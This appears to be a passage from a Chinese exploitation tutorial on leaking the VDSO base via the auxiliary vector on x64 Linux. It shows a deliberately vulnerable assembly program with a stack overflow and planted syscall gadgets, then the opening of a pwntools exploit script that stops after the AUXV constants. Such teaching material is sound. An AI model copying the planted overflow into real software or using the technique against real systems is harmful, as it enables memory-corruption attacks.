 # Example_x64

64 位下使用 AXUV 泄漏 VDSO 的例子。主要是输入一串长为 1024 的字符串：

```nasm
section .text

global _start
jmp _start
vuln:
sub rsp, 8
mov rax, 0 ; sys_read
xor rdi, rdi
mov rsi, rsp
mov rdx, 1024
syscall
add rsp, 8
ret

_start:
call vuln
mov rax, 60 ; sys_exit
xor rdi, rdi
syscall

gadgets:
mov rdi, 1
ret
mov rax, 15
ret
syscall
ret
```

尝试利用 vsyscall 中的 `syscall ; ret` 没能成功，所以在程序后面又加了一个 Gadget 用来构造（具体什么原因没有找到）。在栈上泄漏 AUXV 之后，可以获取 VDSO 的基址以及输入的字符串在栈上的地址。脚本如下：

```python
#!/usr/bin/env python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
#context.terminal = ['lxterminal', '-e']

p = process('./main')

# id's of Auxillary Vectors
AT_SYSINFO_EHDR = 0x21
AT_HWCAP = 0x10
AT_PAGESZ = 0x06
AT_CLKTCK = 0x11
AT_PHDR = 0x03
AT_PHENT = 0x04
AT_PHNUM = 0x05
AT_BASE = 0x07
AT_FLAGS = 0x08
AT_ENTRY = 0x09
AT_UID = 0x0b
AT_EUID = 0x0c
AT_GID = 0x0d
AT_EGID = 0x0e
AT_SECURE = 0x17
AT_RANDOM = 0x19
```